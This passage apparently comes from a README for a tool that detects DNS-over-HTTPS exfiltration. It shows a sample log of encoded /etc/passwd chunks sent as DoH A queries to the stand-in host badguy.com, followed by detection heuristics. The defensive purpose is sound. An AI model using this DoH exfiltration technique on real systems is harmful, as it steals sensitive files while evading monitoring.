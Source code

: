 This is a DNS **TXT** record request. At some point, the C2 instance will issue a command that it encodes in its TXT record response. The C2 server could, for example, say something like, "Give me your /etc/passwd file." The client agent will then go do the thing (get the local /etc/passwd file), break it into a bunch of small pieces, encode those pieces, and then send those pieces to the C2 instance as A record requests:

```bash
DoH A Query: name=d34a.be.0.00.0.0.0.0.0.badguy.com,type=1,version=JSON,id=null
DoH A Query: name=d34a.be.0.00.0.0.0.0.0.badguy.com,type=1,version=JSON,id=null
DoH A Query: name=d34a.ef.1.4cf57533.0.3.1f8b08000000000002ff001f05e0fa6d49899cb2fc640f5204e16f8c9f37.090d121781de2b97925c886bde9e8a86f490b1651ed1bb585e31ffed9b3c.aff0c7a3598c1e2d5332335484b6dc41d33c7881b5a0a14d821e4338af56.badguy.com,type=1,version=JSON,id=null
DoH A Query: name=d34a.ef.1.4cf57533.0.3.1f8b08000000000002ff001f05e0fa6d49899cb2fc640f5204e16f8c9f37.090d121781de2b97925c886bde9e8a86f490b1651ed1bb585e31ffed9b3c.aff0c7a3598c1e2d5332335484b6dc41d33c7881b5a0a14d821e4338af56.badguy.com,type=1,version=JSON,id=null
DoH A Query: name=d34a.ef.12.a88ac3df.0.3.f943910ae0adcf7105990f3192c19236d04c0df22f897d91c3efec75f2d1.f9d26d1e218b77c6a28c9681391596f610ecbfac02f5b3bc5d5763b891c4.ea32f05d2bfc4eb65078835e0d8234f8b76bf20099e87b13305d14c23f98.badguy.com,type=1,version=JSON,id=null
DoH A Query: name=d34a.ef.13.bae530bc.0.3.047a8ba7091ff997b517777da8d59aefcefd0f263cf3ccb740ba5c848a53.25f6eecf8133876d2376abf317cb18239d17ac36432335d5ddbb75346fc4.e7d61353628401eba13398c19e4a1dd0f7d4f9a17d07e1f750aaba51285f.badguy.com,type=1,version=JSON,id=null
DoH A Query: name=d34a.ef.13.bae530bc.0.3.047a8ba7091ff997b517777da8d59aefcefd0f263cf3ccb740ba5c848a53.25f6eecf8133876d2376abf317cb18239d17ac36432335d5ddbb75346fc4.e7d61353628401eba13398c19e4a1dd0f7d4f9a17d07e1f750aaba51285f.badguy.com,type=1,version=JSON,id=null
DoH A Query: name=d34a.ef.14.87b9a653.0.3.dfb7c15f347f5bbb7ae0e716edf93cce77d4a5856de2c251554b38f4f237.dacf1716ba71620dba5345a01acfd849cc31872c12c0dff47919ccfdf0d3.e330811ce3a6a5fa1f198fff8fbce36c384778270ec6d31300a164ebd79f.badguy.com,type=1,version=JSON,id=null
DoH A Query: name=d34a.ef.14.87b9a653.0.3.dfb7c15f347f5bbb7ae0e716edf93cce77d4a5856de2c251554b38f4f237.dacf1716ba71620dba5345a01acfd849cc31872c12c0dff47919ccfdf0d3.e330811ce3a6a5fa1f198fff8fbce36c384778270ec6d31300a164ebd79f.badguy.com,type=1,version=JSON,id=null
DoH A Query: name=d34a.ef.15.53682df3.0.3.d455f8fd1fa1547fdef9eea4581fdabd4fb1b5418bd65a186f04a8d8a496.1e16f5b4a42bd4a4e4c852f045705ca321de5879176fd0a3671dbaf9e9ac.4dea784db392010000ffff7086b2021f050000.badguy.com,type=1,version=JSON,id=null
DoH A Query: name=d34a.ef.15.53682df3.0.3.d455f8fd1fa1547fdef9eea4581fdabd4fb1b5418bd65a186f04a8d8a496.1e16f5b4a42bd4a4e4c852f045705ca321de5879176fd0a3671dbaf9e9ac.4dea784db392010000ffff7086b2021f050000.badguy.com,type=1,version=JSON,id=null
DoH A Query: name=d34a.ca.16.00.0.0.0.0.0.badguy.com,type=1,version=JSON,id=null
DoH A Query: name=d34a.ca.16.00.0.0.0.0.0.badguy.com,type=1,version=JSON,id=null
```

And so, what looks like regular HTTPS traffic going to Cloudflare has just copied the contents of a sensitive system file to a bad actor on the Internet. There are a number of ways to "detect" anomalous DNS-over-HTTPS traffic, as documented in [Real time detection of malicious DoH traffic using statistical analysis](https://www.sciencedirect.com/science/article/pii/S1389128623003559). In this implementation we focus on two of these:

* **Abnormally long subdomain names**: where, as illustrated above, the full subdomain in a DoH exfiltration event will exceed some character length (default 52 characters).
* **Uncommon query types**: where the DoH agent uses an uncommon query type to convey messages (ex. NULL, NAPTR).

------
### DoH Blackhole Action Explained
